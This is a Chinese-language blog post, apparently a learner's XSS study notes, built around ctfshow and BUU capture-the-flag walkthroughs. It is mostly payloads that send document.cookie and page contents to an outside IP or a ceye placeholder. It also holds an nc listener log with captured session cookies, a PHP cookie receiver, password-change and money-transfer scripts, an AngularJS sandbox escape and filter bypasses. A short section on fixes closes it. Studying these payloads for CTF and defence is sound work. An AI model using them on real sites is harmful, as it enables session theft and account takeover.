



+++
title = "深入浅出XSS"
slug = "xss-in-depth"
description = ""
date = "2024-09-25T08:04:23"
lastmod = "2024-09-25T08:04:23"
image = ""
license = ""
categories = ["talk"]
tags = ["xss", "姿势"]
+++

# 0x01 前言

最近发现`xss`的利用还是挺多的，但是自己又处于一个只会用低级`payload`的水平,所以来学习一下

# 0x02 question

## what‘s this

### 原理



原理就是很简单，类似于注入，我们插入了恶意代码在网页中，并且也被成功解析了

### 利用场景

> 1. 浏览器可以执行JavaScript代码（这不是废话吗）。
> 2. 网页可以显示用户输入的内容。包括但不限于：根据url中的参数渲染网页、预览输入框写好的内容、留言板等其他用户提交的内容等。

那么很显然这是被动的攻击，在之前并不流行，但是现在互联网主要讲求一个"互",所以自然而然的也可以进行利用了，而能来干什么(最常见的钓鱼)

### 干啥

- 窃取[cookie](https://blog.oonne.com/site/blog?id=31)或[token](https://blog.oonne.com/site/blog?id=43)来获得用户登录态；
- 劫持流量，把用户正在访问的页面跳转到钓鱼网站；
- 盗用账户来转账、群发信息等；
- 利用用户的设备来发起DDOS攻击；

### demo

这次我们从一个最简单的`demo`来看看原理

```php
<?php
$xss=$_GET['id'];
echo $xss;
```

```
?id=<script>alert(1)</script>
```

直接就出现弹窗了，也就是因为我们的恶意代码被解析插入，这样子看其实还是不是很能理解，再来个`demo`，这个`demo`也就花了我两个小时吧，艹想哭了

为了更加直观的看到为什么会造成`xss`，我零基础学了如果使用`Tomcat`来搭建一个本地服务，其中载入`jsp`漏洞代码，即可进行`xss`测试

```jsp
<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>
<!DOCTYPE html>
<html lang="zh-CN">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>XSS 测试页面</title>
</head>
<body>
<h1>XSS 测试页面</h1>

<form action="xss_test.jsp" method="get">
    <label for="message">输入消息:</label>
    <input type="text" id="message" name="message" value="<%= request.getParameter("message") == null ? "" : request.getParameter("message") %>">
    <button type="submit">提交</button>
</form>

<div>
    您输入的消息是：<%= request.getParameter("message") == null ? "null" : request.getParameter("message") %>
</div>
</body>
</html>
```

先简单的写个`xss_test.jsp`直接用来测试的

我们直接在输入框中输入

```html
<script>alert('XSS');</script>
```

发现弹窗成功，再查看代码发现原来变成了这样

```jsp
<!DOCTYPE html>
<html lang="zh-CN">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>XSS 测试页面</title>
</head>
<body>
<h1>XSS 测试页面</h1>

<form action="xss_test.jsp" method="get">
    <label for="message">输入消息:</label>
    <input type="text" id="message" name="message" value="<script>alert('XSS');</script>">
    <button type="submit">提交</button>
</form>

<div>
    您输入的消息是：<script>alert('XSS');</script>
</div>
</body>
</html>
```

也就是说我们插入的恶意代码被直接放进了源码之中解析

### 分析payload

```
<script>alert(1)</script>
```

`alert`:是`JavaScript `中的一个内置函数,用于显示一个警告对话框。

`<script>`:是HTML 中的一个标签，用于定义客户端脚本（如 JavaScript）。

标签也就是执行的原因

## xss利用

`html`标签什么应该都知道吧(~~~不知道就寄寄~~),本身`xss`又分为三种类型,**反射型，存储型，基于DOM的xss**

### 获取

首先来讲讲获取手法吧，因为这个之前是困扰了我很久的

使用的`payload`

```
<body onload="window.open('http://ip:port/'+document.cookie)">
```

使用`Python`开启`web`服务,打入`payload`即可一直接收

```
python3 -m http.server 9999


124.223.158.81 - - [25/Sep/2024 06:17:11] "GET /PHPSESSID=5el9lo449uj38irou4flmjnk77;%20flag=ctfshow%7B8f2ded97-e98b-4a2e-b771-358d90420962%7D HTTP/1.1" 404 -
124.223.158.81 - - [25/Sep/2024 06:17:22] code 404, message File not found
124.223.158.81 - - [25/Sep/2024 06:17:22] "GET /PHPSESSID=le32vkvgl7g694rhkoerirpiig;%20flag=ctfshow%7B8f2ded97-e98b-4a2e-b771-358d90420962%7D HTTP/1.1" 404 -
```

直接监听

```
root@dkcjbRCL8kgaNGz:/var/www/html# nc -lvnp 9999
Listening on 0.0.0.0 9999
Connection received on 124.223.158.81 49214
GET /PHPSESSID=o360pf41voksjv2f8ur1tm7o1n;%20flag=ctfshow%7B8f2ded97-e98b-4a2e-b771-358d90420962%7D HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Referer: http://127.0.0.1/target.php?key=ctfshow_bot_key
User-Agent: Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/538.1 (KHTML, like Gecko) PhantomJS/2.1.1 Safari/538.1
Connection: Keep-Alive
Accept-Encoding: gzip, deflate
Accept-Language: en,*
Host: ip:9999
```

写一个文件进行接收

```php
<?php
$a=$_GET['a'];
if(isset($a)){
    file_put_contents('cookie.txt',$a);
}else {
    echo "nonono!";
}
```

别忘记给权限不然写不了文件的

payload也要改改

```
<body onload="window.open('http://ip/xss.php?a='+document.cookie)">
```

当然后面别忘记修改权限避免安全问题

### 反射



所以说恶意代码是存在 URL 里

demo **ctfshow web316--web326**，可以看到我们插入的恶意代码都会直接在`url`之中

随便搞一个**326**来测试

过滤了空格和一些标签写出`payload`

```
<body/**/onload="window.open('http://ip:port/'+document.cookie)">
```

这里发现貌似是写文件不能够行的了诶，没关系监听端口也可以

### 存储



嗯哼，恶意代码存在数据库里，也就是我们常见的登录框、留言框等等场景

**留言框demo ctfshow web327**

在留言框里面留下恶意代码

```
<body/**/onload="window.open('http://27.25.151.48:9999/'+document.cookie)">
```

oh shit有一个小坑就是只能发送给`admin`，但是想来能有权限解析恶意代码的也只有`admin`了

**登录框demo ctfshow web328**

在注册框里面插入恶意代码，然后登录，即可成功(原理也是一样)，这里是把一些标签过滤了我们换一下

```
<script>window.open('http://27.25.151.48:9999/'+document.cookie)</script>
```

拿到`cookie`之后登录即可

**ctfshow web329**当cookie在一直更换无法使用cookie登录时，我们可以试试查找关键字或者锁定位置来进行

通过**检查**得到位置之后，发现也只有两个位置(也就是这两列)，不过元素索引这个事情大家都知道吧，所以写一个payload来获取到元素内容

```html
<script>window.open('http://27.25.151.48:9999/'+document.getElementsByClassName('layui-table-cell laytable-cell-1-0-1')[1].innerHTML)</script>
```

也可以进行循环捕捉

```html
<script>$('.layui-table-cell.laytable-cell-1-0-1').each(function(index,value){if(value.innerHTML.indexOf('ctf'+'show{')>-1)
{window.location.href='http://27.25.151.48:2333/'+value.innerHTML;}});</script>
```

这些函数自个查查(~~我也不熟悉~~)

还有利用`xss`打一个本地类似的`ssrf`

**demo ctfshow web330**

抓包先

```
GET /api/change.php?p=123 HTTP/1.1
Host: 55f6799f-809c-4233-a4a2-3c5c9031145b.challenge.ctf.show
Cookie: PHPSESSID=erm5q643d7svu4r7l4m9fh3ctd
Sec-Ch-Ua-Platform: "Windows"
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Accept: */*
Sec-Ch-Ua: "Google Chrome";v="129", "Not=A?Brand";v="8", "Chromium";v="129"
Sec-Ch-Ua-Mobile: ?0
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://55f6799f-809c-4233-a4a2-3c5c9031145b.challenge.ctf.show/change.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Priority: u=1, i
Connection: close


```

那么可以构造payload来试试能否更改

```html
<script>location.href='http://127.0.0.1/api/change.php?p=123456'</script>
```

然后`admin`登录即可

或者和web329差不多直接打出整个页面的内容(但是肯定不一样)

根据F12我们慢慢试试可以看到`layui-container`就直接覆盖了那个页面的所有内容，我们直接获取所有源码

```html
<script>location.href="http://27.25.151.48:2333/"+document.getElementsByClassName('layui-container')[0].outerHTML</script>
```

然后解码就行了

**web331**

当然还是可以直接获取页面的整个内容，不过修改密码也是一个不错的选择这次发现是`POST`传参

```html
<script>$.ajax({url:'api/change.php',type:'post',data:{p:123}});</script>
```

不使用`jquery`也可以使用`js`来写

```html
<script>var httpRequest = new XMLHttpRequest();httpRequest.open('POST', 'http://127.0.0.1/api/change.php', true);httpRequest.setRequestHeader("Content-type","application/x-www-form-urlencoded");httpRequest.send('p=123456');</script>
```

### DOM

为什么被称为是`DOM`型呢，因为在其中

> 1. 使用document.write直接输出数据。
> 2. 使用innerHTML直接输出数据。
> 3. 使用location、location.href、location.replace、iframe.src、document.referer、window.name等这些。

可以看到这些我们在前面都是已经看到过的，也就是直接利用`xss`进行文档操作的都可以算作是`DOM`型,demo的话上面都有写，所以这个的利用就得多多了解一些函数了，并且与前两者不同的东西

> DOM 型 XSS 攻击中，取出和执行恶意代码由浏览器端完成，属于前端 JavaScript 自身的安全漏洞，而其他两种 XSS 都属于服务端的安全漏洞。

所以这里就不放demo了

### 异步xss

> - **异步通信**：现代 Web 应用程序广泛使用 AJAX（Asynchronous JavaScript and XML）技术，通过异步请求与服务器通信，更新页面内容而无需重新加载整个页面。
> - **异步 XSS**：利用 AJAX 请求中的漏洞，注入恶意脚本，这些脚本在用户浏览器中异步执行。

说实话看懂了吗，我反正是没看懂，不过倒是有个demo就是**ctfshow web333**

这里仍然是转钱的漏洞不过，我们可以利用异步xss，进行转钱，可以越过转钱金额的限制

抓包了好几次拿到交易的包

```
POST /api/amount.php HTTP/1.1
Host: 4ac4a559-3aaa-4967-ad5d-dd6885415e45.challenge.ctf.show
Cookie: PHPSESSID=uomr637qbom070ab78u7t149l2
Content-Length: 9
Cache-Control: max-age=0
Sec-Ch-Ua: "Google Chrome";v="129", "Not=A?Brand";v="8", "Chromium";v="129"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Origin: https://4ac4a559-3aaa-4967-ad5d-dd6885415e45.challenge.ctf.show
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://4ac4a559-3aaa-4967-ad5d-dd6885415e45.challenge.ctf.show/transfer.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Priority: u=0, i
Connection: close

u=111&a=1
```

我们用`xss`进行POST传参转钱

```html
<script>$.ajax({url:'api/amount.php',type:'post',data:{u:'111',a:'10000'}});</script>
```

也许这样子看来和普通的xss有啥不同啊，没啥不同啊，但是本身我们会发现每次转钱之后会说交易成功，然后我们自己回去那个页面查看金额，这种就是**属于更新**而没有重新加载页面，如果是**重新加载**的话应该是**转钱之后当即刷新**

## demo(我觉得可以做做)

### BUU XSS COURSE 1

进来一个框子直接开打

```html

```

得到路径

```
 /#/view/7f1d432a-6ec5-42c6-b460-6e514a4d43e1
```

访问之后发现一张图片，但是访问不了，不过内容确实是我们成功插入的payload，那么可能说靶机不能访问外网，那么修改一下`payload`

```
</textarea>'">
```

这是`xssplatform`来写出的`payload`,但是现在平台用不了了QWQ

### [第二章 web进阶]XSS闯关

进来可以看到我们的代码是直接插入源码的

```html
<script>alert(1)</script>
```

第二关闭合即可

```
';alert(1);//
```

第三关被转义了一个单引号，但是无所谓，再加一个即可

```
'';alert(1);//
```

第四关查看源码

```js
function jump(time){
    		if(time == 0){
    			location.href = jumpUrl;
    		}else{
    			time = time - 1 ;
    			document.getElementById('ccc').innerHTML= `页面${time}秒后将会重定向到${escape(jumpUrl)}`;
    			setTimeout(jump,1000,time);
    		}
    	}
```

那么我们可以利用属性插入

```
?jumpUrl=javascript:alert(1)
```

第五关查看源码

```js
if(getQueryVariable('autosubmit') !== false){
    		var autoForm = document.getElementById('autoForm');
    		autoForm.action = (getQueryVariable('action') == false) ? location.href : getQueryVariable('action');
    		autoForm.submit();
    	}else{
    		
    	}
```

两个参数，然后我们需要搞点事情，绕过一点小检查

```
?autosubmit=1&action=javascript:alert(1)
```

第六关

AngularJS 1.4.6框架，沙箱逃逸

```
{{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };alert(1)//');}}
```

### 

## bypass

### HTML标签

```html
<script>alert(1)</script>
```

### HTML属性

```html
<a href="javascript:alert('XSS')">http://baidu,com</a>
```

```html
<SCRIPT SRC="http://27.25.151.48:12138/xss.js"></SCRIPT>
```

`xss.js`写这个

```js
alert(1)
```

```html

```

还可以利用属性的报错

```html

```

### 利用Unicode

```html
<script>eval("\u0061\u006c\u0065\u0072\u0074('XSS')")</script>
```

### 闭合

闭合插入恶意代码大家也是耳熟能详了

```html
<body>
  <script>
    <?php 
      echo "var a='".$keyword."'";
    ?>;
  </script>
</body>
```

```
?keyword=';alert(1);'
```

就变成了

```
<body>
  <script>
    <?php 
      echo "var a='';alert(1);''";
    ?>;
  </script>
</body>
```

成功插入

### payload解释

```html
<script>
    var img = document.createElement("img"); //创建img变量
    img.src = 'http://ceye地址/' + document.cookie;
    /*
    .src是img属性通常指向地址，document.cookie是当前页面的所有cookie，猜测flag在其中
    <script>html标签
    */
</script>
```

```html
<script>window.location.herf='http://ceye地址/'+document.cookie</script>
```

```html
<script>
    window.open('http://ceye地址/'+document.cookie)    
    //window.open() 是 JavaScript 中用于打开新窗口或标签页的函数。
</script>
```

```html
<iframe onload="window.open('http://ceye地址/'+document.cookie)">
</iframe></iframe>
onload是iframe的一个属性
而iframe 用于在当前html文档中嵌入html文档
其他的和上面一样
```

```html
<svg onload="window.open('http://ceye地址/'+document.cookie)">
```

```html
<body onload="window.open('http://ceye地址/'+document.cookie)">
```

这种绕过就有点类似于命令执行中你禁用什么我就不用什么

### 大小写

```
<SCript>window.location.herf='http://27.25.151.48:12138/xss.php?a='+document.cookie</scRipt>


<body onload="window.open('http://27.25.151.48:12138/xss.php?a='+document.cookie)">
```

### 绕过空格

```
/**/
/
<svg/onload="window.open('http://ceye地址/'+document.cookie)">

<svg/**/onload="window.open('http://ceye地址/'+document.cookie)">
```

### 嵌套

```
<scr<script>ipt>alert(1)</scr</script>ipt>
```

## fix

- 在使用 `.innerHTML、.outerHTML、document.write() `时要特别小心，不要把不可信的数据作为 HTML 插到页面上，而应尽量使用` .textContent、.setAttribute()` 等。

- DOM 中的内联事件监听器，如 `location、onclick、onerror、onload、onmouseover `等， 标签的`href`属性，JavaScript 的`eval()、setTimeout()、setInterval()`等，都能把字符串作为代码运行。

- 在使用 `.innerHTML`、`.outerHTML`、`document.write()` 时要特别小心，不要把不可信的数据作为 HTML 插到页面上，而应尽量使用 `.textContent`、`.setAttribute()` 等。

  如果用 Vue / React 技术栈，并且不使用 `v-html` / `dangerouslySetInnerHTML` 功能，就在前端 `render` 渲染阶段避免 `innerHTML`、`outerHTML` 的 XSS 隐患。

  以下方式都能把字符串作为代码运行：

  - DOM 中的内联事件监听器：如 `location`、`onclick`、`onerror`、`onload`、`onmouseover` 等
  - HTML DOM 标签属性：`<a>` 标签的 `href` 属性
  - JavaScript 的 `eval()`、`setTimeout()`、`setInterval()` 等

- 过滤老套路了

- 前端渲染的时候将代码和数据分开，不要执行恶意代码

- 拼接HTML时进行转义

# 0x03 小结

学习`xss`还是要知道一些`JavaScript`和`jquary`什么的函数不然还是很难，没想到一个个都是这样子的，不过现在也是会打一点点漏洞了，知道部分原理了

**bypass**部分我知道还有很多要学的，但是我遭不住了，后面会更新的，还有这些常用函数什么的关于`js` `jquary`的会单独写写
